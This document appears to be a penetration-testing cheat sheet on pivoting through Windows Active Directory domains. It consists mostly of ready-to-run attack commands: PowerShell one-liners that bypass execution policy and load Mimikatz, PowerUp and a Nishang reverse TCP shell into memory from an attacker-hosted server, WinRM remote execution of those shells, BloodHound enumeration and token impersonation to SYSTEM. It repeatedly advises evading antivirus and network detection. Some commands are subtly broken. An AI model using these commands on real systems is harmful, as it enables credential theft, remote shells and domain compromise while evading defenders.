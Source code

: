 # Pivoting

Pivoting means to move across machines in an environment. This article is about using different techniques to achieve both enumeration of the domain, popping shells, and executing exploits to gain further access. Of course we use the prevalence of Powershell in modern Windows environments to our advantage. We also string together many of these tricks towards efficient and stealthy hacking with a small footprint. Powershhell can do a lot straight into memory without dropping files to disk. BOX01 will be the name of the example box in this article. 10.10.10.10 is also just an example of what would be your local IP address when performing such attacks. Hosting files for download from kali is easy using `python -SimpleHTTPServer 80`

It can also be wise to here set up a local certificate on the server and use HTTPS/443 to avoid detection by network security controls.

Most of these tricks can be employed with only a domain user.

### Downloading/uploading files

Downloading files to boxes willsometimes be necessary, but don't forget that Powershell has the ability to do so much both remotely and execute straight in memory, which is better when you need to be a ninja or bypass things like Antivirus.

This will download a file to the current folder with the same name. An interactive powershell is not necessary for running these commands. They can be ran straight from CMD.

`Powershell.exe -nop -exec bypass -c "IEX (New-Object System.Net.WebClient).Downloadfile('http://10.10.10.10/file.txt');"`

This will download to a specific folder and with a specific name as specified in the second argument of the DownloadFile function.

`Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadFile('http://10.10.10.10/PowerView.ps1','C:\tmp\PowerView.ps1');"`

### BloodHound

BloodHound is a tool for mapping out the entire domain graphically.

`Powershell -exec bypass`

`Import-module sharphound.ps1`

`Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData -SkipPing`

### Remoting

Once a domain user is acquired, a lot can be done in terms of remoting. In AD environments, a shell on a box is barely required given a certain set of criteria. One a domain user as been acquired you can use numerous commands to work remotely on boxes you have access to either through domain or local privileges on the remote box. Windows has three ways of providing authenticated access: credentials, hash or tokens. You can see those differnet types of access below:

If file shares are available on a box you can use dir on the path without ever getting prompted for a password given that you already have a shell as the user you want to authenticate as. This means if you somehow got a shell without credentials or a hash, you still have your token to verify your identity to remote services. See command below for a simple verification.

`dir \\BOX01\c$\`

If you however don't have a shell but the credentials of a domain user you can use the somewhat old school [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb490994%28v=technet.10%29). This \_will \_prompt you for password, but can be ran without a shell from your own machine.

/netonly : Indicates that the user information specified is for remote access only.

`runas /netonly /FQDN\user cmd.exe`

Run the following command to execute powershell and get on a remote box

`runas /netonly /user:customer\ank powershell`

Using WMIC, check which users have sessions on a remote machine. Local administrator privileges are not necessary to execute this remotely.

```
wmic /node:box01.lab.local path win32_loggedonuser get antecedent
```

Powershell supports WinRM natively, which allows remote execution of commands. Here is how to execute a command on a remote box the current user has access to only using tokens, \(no prompt for password or PTH\). Here the hostname command is used for verification, but you can essentially replace it with any command, like powershell.

`Invoke-Command -ComputerName BOX01 -Scriptblock {hostname}`

If you want to go even harder, you can set up credentials in Powershell. This is something that Empire can do natively with functions like ps\_remoting.

`$username = 'DOMAIN\USERNAME'; $password = 'PASSWORD'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-Command -ComputerName BOX01 -Credential $credential  -ScriptBlock {hostname};`

### Powerview

Powerview is a super useful set of tools for enumerating a domain. It is part of the much larger toolset of Powersploit, and development is huge on this, so things change all the time.The script and full command list for Powerview can be found here:

[https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

In powerview, there is a super useful function called `Find-LocalAdminAccess` which enumerates which machines the current user is local administrator on. This can be very useful, as you can then remotely execute things like mimikatz on those boxes straight into memory to get the credentials of domain users. If you need an overview of what groups and users are local admin on every box in the environment you can use `Invoke-EnumerateLocalAdmin`

If you want to go hail mary and fuck shit up you can run every single module in Powerview:

In PowerUp.ps1, add `Invoke-AllChecks` at the bottom of the file. This makes the powershell script execute that function straight into memory after the string has been downloaded. This works for any function inside a powershell-script.

`Powershell.exe -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.47/PowerUp.ps1'); Invoke-AllChecks”`

### Mimikatz

Similar as with powervioew, add a line at the bottom of the ps1 file stating the command you want to execute.  Immediate results straight in the terminal!

```
Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');"
```

### Shells

Ninshang shells are the shit [https://github.com/samratashok/nishang/tree/master/Shells](https://github.com/samratashok/nishang/tree/master/Shells)

```
Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1');"
```

We can do the same thing remotely to a box we have access to using WinRM.

```powershell
Invoke-Command -ComputerName BOX01  -Scriptblock {Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClien
t).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1');"}
```

Should also start looking into using HTTPS shells here to avoid detection.

### Token impersonation

We can do token impersonation completely without Meterpreter, which is really nice. This trick spawns a new thread, but also works in the same thread. However, if you type whoami it might still show the old user. If you however spawn a new process and migrate to that you will have a shell as the account you are impersonating.

Invokes token impersonation on a domain user. If this doesn't work you can try impersonating SYSTEM and then dropping credentials using mimikatz.

`Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"`

`Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"`

`Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"`

### Invoke-Kerberoast

kerberoasting is a technique

[https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)

[https://room362.com/post/2016/kerberoast-pt1/](https://room362.com/post/2016/kerberoast-pt1/)

